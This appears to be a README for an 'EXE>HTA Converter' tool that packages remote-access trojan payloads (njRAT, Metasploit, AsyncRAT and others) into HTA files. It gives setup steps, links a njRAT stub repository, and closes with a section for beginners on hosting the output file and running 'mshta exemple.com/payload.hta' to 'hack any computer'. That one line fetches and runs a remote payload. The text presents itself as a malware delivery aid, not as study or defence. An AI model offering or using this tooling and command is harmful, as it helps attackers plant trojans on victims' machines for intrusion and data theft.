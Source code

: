### Welcome to EXE>HTA Converter tool version 1.00

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.png" width=400 align="center">

<img src="screenshots/Payload.png" width=400 align="center">

<img src="screenshots/Finish.png" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and some other RAT's. This tool was made for Windows users.

Video Proof: https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL

1. Donwload & install python3 ('https://www.python.org/downloads/')
2. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
2. Download the tool
3. Unzip the file
4. Open the EXETOHTA.exe file
4. Select your python.exe path
5. Select your payload.exe path
6. press CONVERT button.

To learn more please watch this video: https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 
